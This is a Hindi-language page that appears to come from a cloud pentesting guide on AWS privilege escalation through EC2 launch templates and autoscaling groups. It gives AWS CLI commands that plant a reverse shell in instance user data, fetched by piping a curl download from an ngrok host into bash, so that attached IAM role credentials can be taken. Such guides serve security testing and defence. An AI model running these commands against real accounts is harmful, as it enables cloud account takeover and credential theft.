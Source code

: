 ### `ec2:CreateLaunchTemplateVersion`,`ec2:CreateLaunchTemplate`,`ec2:ModifyLaunchTemplate`

एक हमलावर जिसके पास अनुमतियाँ **`ec2:CreateLaunchTemplateVersion`,`ec2:CreateLaunchTemplate` और `ec2:ModifyLaunchTemplate`** हैं, वह **एक नया लॉन्च टेम्पलेट संस्करण** बना सकता है जिसमें **उपयोगकर्ता डेटा** में **rev shell** और **इस पर कोई भी EC2 IAM भूमिका** हो, डिफ़ॉल्ट संस्करण को बदल सकता है, और **कोई भी ऑटोस्केलर समूह** **जिसका उपयोग** उस **लॉन्च टेम्पलेट** के लिए **किया गया है** जो **नवीनतम** या **डिफ़ॉल्ट संस्करण** का उपयोग करने के लिए **कॉन्फ़िगर** किया गया है, वह **उस टेम्पलेट** का उपयोग करके **इंस्टेंस को फिर से चलाएगा** और rev shell को निष्पादित करेगा।
```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 create-launch-template-version \
--launch-template-name bad_template \
--launch-template-data "{\"ImageId\": \"ami-0c1bc246476a5572b\", \"InstanceType\": \"t3.micro\", \"IamInstanceProfile\": {\"Name\": \"ecsInstanceRole\"}, \"UserData\": \"$REV\"}"

aws ec2 modify-launch-template \
--launch-template-name bad_template \
--default-version 2
```
**संभावित प्रभाव:** एक अलग EC2 भूमिका में सीधे प्रिवेस्क।

### `autoscaling:CreateLaunchConfiguration`, `autoscaling:CreateAutoScalingGroup`, `iam:PassRole`

एक हमलावर जिसके पास अनुमतियाँ **`autoscaling:CreateLaunchConfiguration`,`autoscaling:CreateAutoScalingGroup`,`iam:PassRole`** हैं, वह **एक लॉन्च कॉन्फ़िगरेशन** बना सकता है जिसमें **IAM भूमिका** और **रिवर्स शेल** **उपयोगकर्ता डेटा** के अंदर हो, फिर उस कॉन्फ़िगरेशन से **एक ऑटोस्केलिंग समूह** बना सकता है और रिवर्स शेल का **IAM भूमिका** चुराने के लिए इंतज़ार कर सकता है।
```bash
aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-launch-configuration \
--launch-configuration-name bad_config \
--image-id ami-0c1bc246476a5572b \
--instance-type t3.micro \
--iam-instance-profile EC2-CloudWatch-Agent-Role \
--user-data "$REV"

aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-auto-scaling-group \
--auto-scaling-group-name bad_auto \
--min-size 1 --max-size 1 \
--launch-configuration-name bad_config \
--desired-capacity 1 \
--vpc-zone-identifier "subnet-e282f9b8"
```
**संभावित प्रभाव:** एक अलग EC2 भूमिका में सीधे प्रिवेस्क।

### `!autoscaling`

अनुमतियों का सेट **`ec2:CreateLaunchTemplate`** और **`autoscaling:CreateAutoScalingGroup`** **IAM भूमिका में प्रिविलेज बढ़ाने के लिए पर्याप्त नहीं है** क्योंकि लॉन्च कॉन्फ़िगरेशन या लॉन्च टेम्पलेट में निर्दिष्ट भूमिका को संलग्न करने के लिए **आपको अनुमतियाँ `iam:PassRole` और `ec2:RunInstances`** की आवश्यकता है (जो एक ज्ञात प्रिवेस्क है)।
